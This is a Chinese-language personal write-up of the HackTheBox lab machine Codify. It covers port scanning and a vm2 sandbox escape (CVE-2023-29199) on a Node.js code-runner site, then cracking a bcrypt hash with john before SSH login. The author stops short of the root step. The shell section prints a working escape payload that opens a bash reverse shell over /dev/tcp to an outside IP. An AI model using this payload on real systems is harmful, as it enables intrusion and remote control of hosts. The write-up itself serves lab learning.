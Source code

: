 ```yaml
---
UID: 20250621140608
aliases: 
tags:
  - 打靶
  - 靶场
  - hackthebox
source: 
cssclasses: 
created: 2025-06-21
---
```

[[htb 靶场 Codify（python脚本）]]
## 扫描端口
![image.png](https://s2.loli.net/2025/06/21/M4GYxLR28IwFiNQ.png)

有两个 http 的端口，一个 ssh 端口。需要我们重定向，配置一下/etc/hosts


## web 服务信息收集
![image.png](https://s2.loli.net/2025/06/21/c81a6spwOqXm4My.png)

是个编写 node. js 代码的平台

写一个 node. js 的反弹 shell
![image.png](https://s2.loli.net/2025/06/21/u58JydpSno6HfTF.png)

![image.png](https://s2.loli.net/2025/06/21/3JaqeRjkQExyrWS.png)

但是这里面有限制，不能用这些

没得头绪了，只能信息收集

## vm 2 漏洞利用
![image.png](https://s2.loli.net/2025/06/21/4oKaxgSNHwAMXBz.png)

在这里能看到使用了 vm 2 这个 js 的库，点进去能找到版本号
![image.png](https://s2.loli.net/2025/06/21/MJKt5XLhTay2wbv.png)

vm 2 有个沙箱逃逸漏洞**CVE-2023-29199**
![image.png](https://s2.loli.net/2025/06/21/rmDaGhvfXPL54Co.png)


找到了 poc
![image.png](https://s2.loli.net/2025/06/21/b7hCPzaFvXk3RKE.png)

shell 在此
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('bash -c ‘exec bash -i &>/dev/tcp/10.10.16.12/8888 <&1’');
}
`

console.log(vm.run(code));
```

获得反弹 shell

![image.png](https://s2.loli.net/2025/06/21/sO5L9VvxeNGPlMX.png)


## 提权
在 opt 目录下找到一个 root 权限的脚本
![image.png](https://s2.loli.net/2025/06/21/L9mJBRFHGY7f86h.png)


我们可以试试环境变量劫持或者别的。先继续收集

### linpeas 收集
![image.png](https://s2.loli.net/2025/06/21/Ashg8SuZJOK6kry.png)

定时任务


![image.png](https://s2.loli.net/2025/06/21/zFrx3B4nkptGqR8.png)

有好几个数据库的文件
![image.png](https://s2.loli.net/2025/06/21/8jGsZd4Do1EBtAp.png)

在这个数据库中找到了密码和账户

![image.png](https://s2.loli.net/2025/06/21/Rpd2IEjDuAfhw6i.png)

是 bcrypt 加密。
```
john --wordlist=/home/kali/下载/rockyou.txt john.txt --format=bcrypt
```
![image.png](https://s2.loli.net/2025/06/21/R8DtJo4MQbHh2z3.png)


用 ssh 登录登录成功
![image.png](https://s2.loli.net/2025/06/21/df2pMn6Yvu4a7Uw.png)

![image.png](https://s2.loli.net/2025/06/21/FkbXUxeKaq6d3ug.png)

## 提权
![image.png](https://s2.loli.net/2025/06/21/Bp453T8v2wd1CRs.png)

这个脚本是提权的关键

后面需要写 python 脚本才能获得 root 的密码。暂时解锁 python 脚本怎么写

只能看 wp 获得 flag